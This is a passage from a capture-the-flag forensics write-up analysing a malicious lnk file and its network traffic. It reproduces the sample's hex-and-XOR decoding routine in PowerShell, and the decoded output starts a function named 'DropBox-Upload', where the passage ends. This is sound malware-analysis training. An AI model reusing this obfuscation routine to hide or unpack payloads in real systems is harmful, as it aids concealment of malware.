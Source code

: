 ![](Images/TrickOrTreat1.png)

If we follow this stream, we can see a large chunk of data, clearly encoded:

![](Images/TrickOrTreat2.png)

After spending some time trying to reverse the encoding steps listed from our `lnk` file, I wasn't getting a reasonable answer. Those with a sharp eye, however, might have noticed right away that this data chunk is being sent from the target, to our victim. Meaning, the decoding actions done in the `lnk` file *is* the way to decode. Instead of reversing the steps, we just need to replicate them. In powershell:
```powershell
PS C:\Users\Flare\Desktop\forensics_trick_or_treat\trick_or_treat> $boddmei = "7b68737e697472733d596f726d5f726530486d71727c793d661717465e70797178695f7473797473<...SNIP...>7c791760";$vurnwos ='';for($i=0;$i -le $boddmei.Length-2;$i=$i+2){$bodms=$boddmei[$i]+$boddmei[$i+1];$decodedChar = [char]([convert]::ToInt16($bodms, 16));$xoredChar=[char]([byte]($decodedChar) -bxor 0x1d);$vurnwos = $vurnwos + $xoredChar}

PS C:\Users\Flare\Desktop\forensics_trick_or_treat\trick_or_treat> echo $vurnwos
function DropBox-Upload {
```